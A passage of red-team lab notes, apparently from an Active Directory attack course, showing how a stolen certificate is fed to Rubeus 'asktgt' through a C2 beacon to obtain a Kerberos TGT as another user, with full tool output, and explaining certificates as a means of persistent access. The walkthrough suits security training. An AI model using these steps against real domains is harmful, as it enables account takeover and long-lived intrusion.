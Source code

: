 * `-w 0` removes line breaks

_**Copy/paste the certificate.**_

**Now, use Rubeus'&#x20;**<mark style="color:yellow;">**`asktgt`**</mark>**&#x20;to request a TGT for the user using the certificate:**

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIIM7w[...]ECAggA /password:pass123 /nowrap

[*] Using PKINIT with etype rc4_hmac and subject: CN=Bob Farmer, CN=Users, DC=dev, DC=cyberbotic, DC=io 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'dev.cyberbotic.io\nlamb'
[*] Using domain controller: 10.10.122.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGQj[...]5pbw==

  ServiceName              :  krbtgt/dev.cyberbotic.io
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  nlamb
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  9/7/2022 8:51:22 AM
  EndTime                  :  9/7/2022 6:51:22 PM
  RenewTill                :  9/14/2022 8:51:22 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  AliVFc5Nk93Z7IUkweCnBQ==
  ASREP (key)              :  4DB9D9D76701696109C28A26D27DE0B0
```

Now we have the TGT as `nlamb` to leverage to access any machine in the domain!

## User & Compliance Persistence

_<mark style="color:$danger;">**Certificates can also be useful for maintaining persistent access**</mark>_ to both users and computers, because they tend to have a much longer shelf-life compared to passwords.

For example, _<mark style="color:yellow;">**User Certificates are valid for an entire year by default**</mark>_, regardless of password changes.

**See below:**

```
CA Name             : dc-2.dev.cyberbotic.io\sub-ca
Template Name       : User
Schema Version      : 1
Validity Period     : 1 year
```

**Certificates only become invalid by:**

1. Revoked by Certificate Authority
2. Or expire
